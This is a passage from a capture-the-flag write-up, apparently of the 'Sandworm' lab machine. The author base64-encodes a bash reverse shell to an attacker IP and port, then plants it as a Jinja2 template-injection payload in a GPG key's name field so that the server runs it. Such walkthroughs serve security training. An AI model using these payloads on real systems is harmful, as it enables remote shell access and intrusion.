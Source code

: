 ```bash
=JPF0
-----END PGP MESSAGE-----
```

![id executed](/assets/images/2023/09/Sandworm/id.png "id executed")

I knew I could run commands on the server. I used that to get a reverse shell. I started by generating a base64 encoded reverse shell to make sure my payload did not have forbidden characters.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.19/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNDQ0NCAwPiYxICAK
```

Then I generated a new key, using the reverse shell code as the name.

```bash
$ gpg --full-generate-key
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

...

Real name: {% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNDQ0NCAwPiYxICAK|base64 -d | bash').read()}}{% endraw %}
Email address: test@test.com
```
